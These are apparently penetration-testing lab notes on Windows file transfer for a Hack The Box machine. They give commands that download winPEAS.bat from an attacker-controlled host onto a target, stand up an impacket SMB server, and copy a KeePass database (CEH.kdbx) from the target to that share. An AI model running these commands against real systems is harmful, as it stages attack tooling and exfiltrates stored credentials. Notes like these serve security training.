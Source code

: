 # Windows File Transfer Commands

---

```
Invoke-WebRequest -Uri "http://<local_ip>/winPEAS.bat" -OutFile "C:\Users\Jareth\Documents\winPEAS.bat"
```

#### SMB Running

When nothing is working, but an smb server is running we can utilize "impacket-smbserver" to create an custom smb server and mount the file/directory we want onto it and access the file and download it locally.

On local machine: 

```
impacket-smbserver private-drive /home/saitama/Desktop/Exploiting/OSCP_Prep/HTB/Windows/Jeeves
```

```
impacket-smbserver <custom_name> <path>
```

On target machine:

```
New-PSDrive -Name "HelloWorld" -PSProvider "FileSystem" -Root "\\10.10.14.239\private-drive"
cd HelloWorld:
cp C:\Users\kohsuke\Documents\CEH.kdbx .
```

The file should now be on our local system.



